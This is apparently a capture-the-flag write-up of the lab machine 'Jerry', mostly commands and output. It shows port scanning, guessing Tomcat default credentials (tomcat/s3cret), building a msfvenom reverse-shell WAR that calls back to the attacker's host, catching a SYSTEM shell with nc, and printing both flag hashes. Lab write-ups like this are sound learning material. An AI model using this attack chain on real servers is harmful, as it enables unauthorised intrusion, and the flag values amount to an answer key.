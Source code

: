 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Jerry



```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.95 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:03 CET
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 122.56 seconds
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.95
	[*] Open ports: 8080

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p8080 10.10.10.95 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:07 CET
Nmap scan report for 10.10.10.95
Host is up (0.081s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   108.22 ms 10.10.16.1
2   108.59 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.82 seconds
```



```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../../.gitbook/assets/4040_vmware_Tz3oiUiWrx.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>



{% embed url="https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown" %}



admin/admin



<figure><img src="../../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>



tomcat/s3cret



<figure><img src="../../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/4046_vmware_KkOShrwBUd.png" alt=""><figcaption></figcaption></figure>



{% embed url="https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00" %}



```bash
❯ msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f war -o pwn.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: pwn.war
```



```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```



<figure><img src="../../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>



```bash
❯ curl -s X GET 'http://10.10.10.95:8080/pwn'
```



```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
